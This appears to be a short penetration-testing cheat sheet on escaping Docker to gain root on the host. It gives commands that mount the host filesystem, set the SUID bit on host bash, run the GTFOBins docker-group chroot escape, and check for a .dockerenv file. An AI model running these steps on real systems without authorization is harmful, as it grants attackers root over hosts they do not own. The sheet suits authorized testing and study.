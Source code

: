 ## Container

### Docker

Enumerate the docker images:

```
docker ps
```

We can use an existing image to create a container and mount the root file system in the container:

```
docker run --rm -it -v /:/mnt username bash
cd /mnt/root/
```

Escalate privileges in the container:

```
cd /mnt/bin
chmod 4755 bash
exit
```

Escalate privileges in the host (not container):

```
bash -p
whoami

# Expected Output
root
```

#### Docker Group

First check what images we have available:

```
docker image ls
```

We can use the GTFObins command replacing the value `<alpine>` with one of the images listed above.

```
docker run -v /:/mnt --rm -it <THE_IMAGE_REPOSITORY_NAME> chroot /mnt sh
```

Returning a shell as root and navigate to /mnt:

```
cd /mnt
```

#### Docker Container

Listing everything inside the '/' directory shows a .dockerenv file. This combined with the hostname of `<ID>` means we are likely running inside a docker container.
